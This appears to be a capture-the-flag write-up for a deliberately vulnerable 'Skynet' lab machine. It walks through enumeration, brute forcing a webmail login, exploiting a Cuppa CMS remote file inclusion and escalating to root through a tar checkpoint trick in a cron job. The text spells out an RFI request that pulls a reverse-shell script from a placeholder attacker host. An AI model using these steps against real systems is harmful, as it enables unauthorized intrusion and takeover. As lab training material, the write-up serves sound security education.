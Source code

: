 # Skynet

## Description

A vulnerable Terminator themed Linux machine.
* Category: Web Exploitation, SMB Exploitation, Brute Forcing, RFI, Cron Jobs, GTFOBins
* Difficulty: Easy

## Challenge

As we deploy the machine, we are given the IP address of the machine. We can start by scanning the machine using Nmap.

![](nmap.png)

We can see 6 open ports: 22, 80, 110, 139, 143, and 445. Let's start by visiting the web server on port 80.

![](skynet-homepage.png)

It is a simple search engine that looks suspiciously like Google. Let's try search for hidden directories using `gobuster`.

![](gobuster.png)

We found some interesting directories: `/admin`, `/config`, `/server-status`, and `/squirrelmail`. Let's visit them and see what we can find.

![](blocked-websites.png)

The 3 `/admin`, `/config`, and `/server-status` directories are blocked. Let's try `/squirrelmail`.

![](squirrelmail-login.png)

It is a login page for SquirrelMail. However, we don't have any credentials to login. We need to look somewhere else. From the Nmap scan, we know that there is an open port 445. Let's try using `enum4linux` to enumerate the machine.

![](smb-enum-user.png)

Apart from common usernames, we found a username `milesdyson`.

![](smb-enum-shares.png)

We also found a private share of `milesdyson` and an `anonymous` share that is readable and writable. Let's try to access the `anonymous` share.

![](smb-anonymous-share.png)

There is a file `important.txt` in the share. There are also 3 more log files in the `logs` directory. Let's download them and see what they contain.

![](list-smb-anonymous-share.png)

A quick list reveals that only the `log1.txt` file is not empty among the logs.

![](smb-anonymous-share-content.png)

The `important.txt` file contains a message from `milesdyson` to address a password change. The `log1.txt` file seems to be a password list. Let's try to use the passwords to login to the SquirrelMail. But first, we need to intercept the login request using Burp Suite.

![](login-request.png)

We can see the login request in Burp Suite. Let's send it to the Intruder and brute force the password.

![](intruder-attack-responses.png)

We can see that among the responses, there is only one password that returns a different status code. Let's try to login using the username `milesdyson` and that password.

![](miles_dyson-inbox.png)

We successfully logged into the SquirrelMail. Let's check the inbox.

![](inbox-first.png)

The first email seems like a spam from `serenakogan`.

![](inbox-second.png)

The second email contains a message in binary. Let's decode it.

![](inbox-second-decoded.png)

And it is just a spamming one just like the first email. Let's check the third email.

![](inbox-third.png)

It is saying that the password for smb of our user has been changed. Let's try to access the `milesdyson` share using the password we found.

![](smb-miles_dyson.png)

Seems like a lot of research files. Among them, there is an `important.txt` note in the `notes` directory. Let's check it.

![](miles_dyson-note.png)

It's a to-do list! And it mentions a CMS URI. Let's try to access it.

![](hidden-website.png)

It is a hidden website. Let's try to search for hidden directories using `gobuster`.

![](gobuster-hidden-website.png)

The gobuster found an `/administrator` directory. Let's visit it.

![](cuppa-cms-login.png)

It's a login page for Cuppa CMS. Let's try to login using the credentials we found. We didn't have any luck. Maybe the credentials are different from the ones we found. Let's look up for any vulnerabilities with Cuppa CMS on Exploit Database.

![](cuppa-cms-exploit-search.png)

There is an LFI/RFI vulnerability in Cuppa CMS. Let's try to exploit it. First, we need to get a reverse shell ready to be delivered. Then, we use netcat to listen for the connection. When everything is set, we can try to exploit the vulnerability. According to the exploit, we need to make a request to `http://<MACHINE-IP>/<HIDDEN-WEBSITE>/administrator/alerts/alertConfigField.php?urlConfig=http://<ATTACKER-IP>:<ATTACKER-PORT>/rev-shell.php`.

![](reverse-shell.png)

And we got a reverse shell! Let's look around a bit.

![](user-flag.png)

We found the user flag. Let's try to escalate our privileges. An interesting place to look is the `cron` jobs. Let's check them.

![](crontab.png)

This is way too juicy! There is a cron job that runs the `backup.sh` script from `milesdyson` home directory as `root` every minute. We need to check our permissions on the script ASAP!

![](backup-script.png)

Darn it! We don't have write permissions on the script. But looking at the script, we can see that it goes through the `/var/www/html` directory and then run `tar cf /home/milesdyson/backups/backup.tar *`. This means that it is saving the contents of the `/var/www/html` directory to an archive in the `backups` directory of `milesdyson` home directory. We need to look on GTFOBins for `tar` to see if we can exploit it.

![](GTFO-tar.png)

Sounds like we can! We need to create checkpoints in the `/var/www/html` and wait for the cron job to run. When it does, the job will spawn a shell as `root` for us. Since our shell is under the permissions of `www-data`, creating our checkpoints won't be a problem.

![](checkpoints-create.png)

Now all we need to do is run a netcat listener on our machine and wait for the cron job to run.

![](root-flag.png)

We got the root flag! We successfully exploited the machine.